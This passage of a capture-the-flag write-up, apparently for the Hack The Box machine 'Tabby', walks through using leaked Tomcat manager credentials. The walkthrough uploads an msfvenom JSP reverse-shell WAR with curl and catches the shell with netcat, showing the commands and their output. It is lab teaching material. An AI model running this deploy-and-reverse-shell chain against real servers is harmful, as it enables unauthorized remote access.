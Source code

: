 ```
.
. (output truncated)
.
```

Emphasis on this line: `<user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>`

Now we know the password and username for the manager webapp we can test to see if there is a deploy command available. See documentation for this [here](https://tomcat.apache.org/tomcat-7.0-doc/manager-howto.html#Supported_Manager_Commands).


```
$ curl -u 'tomcat':'$3cureP4s5w0rd123!' 'http://10.10.10.194:8080/manager/text/deploy'

FAIL - Invalid parameters supplied for command [/deploy]
```

This error means that there is indeed a deploy command we can use! All that remains to do is to generate a payload as a `.war` file, send it to the server and run it to get a reverse shell. Generate the payload in `msfvenom` as follows:

```
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=[YOUR IP ADDRESS] LPORT=1337 -f war > shell.war
Payload size: 1090 bytes
Final size of war file: 1090 bytes
```

Send it with:

```
$ curl -u 'tomcat':'$3cureP4s5w0rd123!' --upload-file shell.war 'http://10.10.10.194:8080/manager/text/deploy?path=/shell'

OK - Deployed application at context path [/shell]
```

Finally, listen on the `LPORT` specified in the `msfvenom` command through `nc` on your attacking machine, once you have it listening on the right port, navigate to the payload you just uploaded at `http://10.10.10.194:8080/shell` to trigger the reverse shell

```
$ nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.194] 44190

```
hey presto, you have a reverse shell. You can follow the guides on how to upgrade to an interactive prompt [here](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/).

So we have a reverse shell as the user `tomcat`, which doesn't appear to have access to the user flag. Further exploration of the file system reveals a backup zip file called `16162020_backup.zip` in `/var/www/html/files`. Checking the owner, we see it belongs to the user `ash`

```
$ ls -ahl 16162020_backup.zip 
-rw-r--r-- 1 ash ash 8.6K Jun 16 13:42 16162020_backup.zip
```


[1-enum-http-1-homepage]: /assets/images/htb/machines/tabby/1-enum-http-1-homepage.png
[1-enum-http-2-possible-LFI]: /assets/images/htb/machines/tabby/1-enum-http-2-possible-LFI.png
[1-enum-http-3-LFI-confirmed]: /assets/images/htb/machines/tabby/1-enum-http-3-LFI-confirmed.png
[2-enum-tomcat-1-default-page]: /assets/images/htb/machines/tabby/2-enum-tomcat-1-default-page.png
[2-enum-tomcat-2-manager-401-error]: /assets/images/htb/machines/tabby/2-enum-tomcat-2-manager-401-error.png